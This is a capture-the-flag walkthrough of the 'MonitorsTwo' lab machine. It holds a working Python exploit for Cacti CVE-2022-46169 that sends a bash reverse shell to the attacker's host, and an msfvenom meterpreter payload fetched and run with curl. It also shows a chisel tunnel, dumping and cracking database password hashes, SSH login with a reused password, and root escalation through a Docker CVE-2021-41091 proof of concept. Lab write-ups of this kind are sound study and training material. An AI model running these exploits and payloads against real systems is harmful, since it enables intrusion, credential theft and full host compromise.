


Monitors two#
Enum#
nmap -sC -sV 10.10.11.211 -oN scans/nmap.init
ial
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-15 23:07 IST
Nmap scan report for 10.10.11.211
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.29 seconds
curl -I http://10.10.11.211:80
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 15 May 2023 22:07:53 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.33
Last-Modified: Mon, 15 May 2023 22:07:53 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src *; img-src 'self' data: blob:; style-src 'self' 'unsafe-inline' ; script-src 'self' 'unsafe-inline' ; frame-ancestors 'self'; worker-src 'self' ;
P3P: CP="CAO PSA OUR"
Cache-Control: no-store, no-cache, must-revalidate
Set-Cookie: Cacti=01edd68201e17246633f6de47b05dadd; path=/; HttpOnly; SameSite=Strict
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache


That’s a php app running cacti, cacti 1.2.22, and that has a CVE, which has a bunch of readily available POCs
git clone https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit.git
import requests
import urllib.parse
def checkVuln():
result = requests.get(vulnURL, headers=header)
return (result.text != "FATAL: You are not authorized to use this service" and result.status_code == 200)
def bruteForce():
# brute force to find host id and local data id
for i in range(1, 5):
for j in range(1, 10):
vulnIdURL = f"{vulnURL}?action=polldata&poller_id=1&host_id={i}&local_data_ids[]={j}"
result = requests.get(vulnIdURL, headers=header)
if result.text != "[]":
# print(result.text)
rrdName = result.json()[0]["rrd_name"]
if rrdName == "polling_time" or rrdName == "uptime":
return True, i, j
return False, -1, -1
def remoteCodeExecution(payload, idHost, idLocal):
encodedPayload = urllib.parse.quote(payload)
injectedURL = f"{vulnURL}?action=polldata&poller_id=;{encodedPayload}&host_id={idHost}&local_data_ids[]={idLocal}"
result = requests.get(injectedURL,headers=header)
print(result.text)
if __name__ == "__main__":
targetURL = "http://10.10.11.211"
vulnURL = f"{targetURL}/remote_agent.php"
# X-Forwarded-For value should be something in the database of Cacti
header = {"X-Forwarded-For": "127.0.0.1"}
print("Checking vulnerability...")
if checkVuln():
print("App is vulnerable")
isVuln, idHost, idLocal = bruteForce()
print("Brute forcing id...")
# RCE payload
ipAddress = "10.10.14.207"
port = "4000"
payload = f"bash -c 'bash -i >& /dev/tcp/{ipAddress}/{port} 0>&1'"
if isVuln:
print("Delivering payload...")
remoteCodeExecution(payload, idHost, idLocal)
else:
print("RRD not found")
else:
print("Not vulnerable")
python3 cacti.py
Checking vulnerability...
App is vulnerable
Brute forcing id...
Delivering payload...
[{"value":"0","rrd_name":"uptime","local_data_id":"6"}]
We get a shell in a docker container running cacti
www-data@50bca5e748b0:/var/www/html$ pwd
pwd
/var/www/html
I did setup a meterpreter in there and downloaded the whole app recursively
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.207 LPORT=4444 -f elf -o ./meter.bin
updog --ssl
www-data@50bca5e748b0:/var/www/html$ curl -kO https://10.10.14.207:9090/meter.bin
</html$ curl -kO https://10.10.14.207:9090/meter.bin
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 207 100 207 0 0 1881 0 --:--:-- --:--:-- --:--:-- 1881
www-data@50bca5e748b0:/var/www/html$ chmod +x meter.bin
chmod +x meter.bin
www-data@50bca5e748b0:/var/www/html$ ./meter.bin
./meter.bin
Looking at the source, I found out that the auth_login.php is calling the function db_fetch_row_prepared to check the users in the db
/* Guest account checking - Not for builtin */
if (!$error && !cacti_sizeof($user) && get_guest_account() > 0) {
/* Locate guest user record */
$user = db_fetch_row_prepared('SELECT *
FROM user_auth
WHERE id = ?',
array(get_guest_account()));
That function is defined in lib/database.php
/**
* db_fetch_row_prepared - run a 'select' sql query and return the first row found
*
* @param (string) The SQL query to execute
* @param (array) An array of values to be prepared into the SQL
* @param (bool) Whether to log error messages, defaults to true
* @param (bool|resource) The connection to use or false to use the default
*
* @return (bool|array) The first row of the result or false if failed
*/
function db_fetch_row_prepared($sql, $params = array(), $log = true, $db_conn = false) {
global $config;
if (!empty($config['DEBUG_SQL_FLOW'])) {
db_echo_sql('db_fetch_row_prepared(\'' . clean_up_lines($sql) . '\', $params = (\'' . implode('\', \'', $params) . '\'), $log = ' . $log . ', $db_conn = ' . ($db_conn ? 'true' : 'false') .')' . "\n");
}
return db_execute_prepared($sql, $params, $log, $db_conn, 'Row', false, 'db_fetch_row_return');
}
And it uses the config in ./include/config.php which has everything we need to connect to the database
$database_type = 'mysql';
$database_default = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port = '3306';
$database_retries = 5;
$database_ssl = false;
$database_ssl_key = '';
$database_ssl_cert = '';
$database_ssl_ca = '';
$database_persist = false;
The entrypoint also would’ve told us that but I realized too late
www-data@50bca5e748b0:/var/www/html$ cd /
cd /
www-data@50bca5e748b0:/$ cat entrypoint.sh
cat entrypoint.sh
#!/bin/bash
set -ex
wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi
chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
set -- apache2-foreground "$@"
fi
exec "$@"
So the app is reaching out to a mysql db at hostname db
We don’t have dig, or nslookup or any of that in the container of course , but we can setup a socks5 proxy in there with chisel
local# ./chisel-arm server -p 4242 --socks5 --reverse
remote# ./chisel-amd client 10.10.14.207:4242 R:1080:socks
And get a connection to the database
proxychains -q mysql -h db -u root -P 3306 -p -D cacti
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 1757
Server version: 5.7.40 MySQL Community Server (GPL)
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [cacti]>
And now getting the hashes is pretty straightforward, they’re bcrypt, so that may not be the way.
MySQL [cacti]> select username,password,email_address from user_auth;
+----------+--------------------------------------------------------------+------------------------+
| username | password | email_address |
+----------+--------------------------------------------------------------+------------------------+
| admin | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | admin@monitorstwo.htb |
| guest | 43e9a4ab75570f5b | |
| marcus | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | marcus@monitorstwo.htb |
+----------+--------------------------------------------------------------+------------------------+
3 rows in set (0.038 sec)
But we’ll run them through some rockyou just in case
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john hashes.txt --show
?:funkymonkey
1 password hash cracked, 1 left
This is marcus’s password and it was reused, for the unix account, so we can get an ssh shell with that
ssh marcus@10.10.11.211
marcus@10.10.11.211's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Tue 16 May 2023 07:42:21 PM UTC
System load: 1.01
Usage of /: 63.3% of 6.73GB
Memory usage: 17%
Swap usage: 0%
Processes: 247
Users logged in: 0
IPv4 address for br-60ea49c21773: 172.18.0.1
IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
IPv4 address for docker0: 172.17.0.1
IPv4 address for eth0: 10.10.11.211
IPv6 address for eth0: dead:beef::250:56ff:feb9:5dcd
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
You have mail.
Last login: Tue May 16 19:15:55 2023 from 10.10.14.207
marcus@monitorstwo:~$
Privesc#
marcus@monitorstwo:/tmp$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
marcus:x:1000:1000:,,,:/home/marcus:/bin/bash
marcus@monitorstwo:/$ netstat -tulpen
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State User Inode PID/Program name
tcp 0 0 127.0.0.1:46507 0.0.0.0:* LISTEN 0 23285 -
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN 0 25346 -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 0 24383 -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN 101 21434 -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 0 23258 -
tcp6 0 0 :::80 :::* LISTEN 0 24384 -
tcp6 0 0 :::22 :::* LISTEN 0 23260 -
udp 0 0 127.0.0.53:53 0.0.0.0:* 101 21433 -
udp 0 0 0.0.0.0:68 0.0.0.0:* 0 20146 -
marcus@monitorstwo:/dev/shm$ sudo -l
[sudo] password for marcus:
Sorry, user marcus may not run sudo on localhost.
Running pspy64
2023/05/16 19:52:10 CMD: UID=0 PID=58322 | /bin/sh /usr/local/bin/docker-php-ext-configure
2023/05/16 19:52:10 CMD: UID=0 PID=58326 | xz -d
2023/05/16 19:52:10 CMD: UID=0 PID=58325 | tar -Jxf /usr/src/php.tar.xz -C /usr/src/php --strip-components=1
2023/05/16 19:52:10 CMD: UID=0 PID=58323 | /bin/sh /usr/local/bin/docker-php-source extract
marcus@monitorstwo:/var/mail$ cat marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of
Dear all,
We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.
CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.
CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.
CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.
We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.
Best regards,
Administrator
CISO
Monitor Two
Security Team
marcus@monitorstwo:/var/mail$ uname -r
5.4.0-147-generic
marcus@monitorstwo:/var/mail$ docker -v
Docker version 20.10.5+dfsg1, build 55c4c88
Found a poc for CVE-2021-41091
git clone https://github.com/UncleJ4ck/CVE-2021-41091
Moving it to the box and running it
marcus@monitorstwo:/dev/shm$ ./exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)
Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no):
In the container, we don’t have root by default, but that’s easy to get
bash-5.1$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
Changing /bin/bash to suid as requested
chmod +s /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27 2022 /bin/bash
Continuing the script
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'
[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'
[!] Spawning Shell
And we got root, interesting, I need to read more on this
marcus@monitorstwo:/dev/shm$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
bash-5.1# cd /root/
bash-5.1# wc -c root.txt
33 root.txt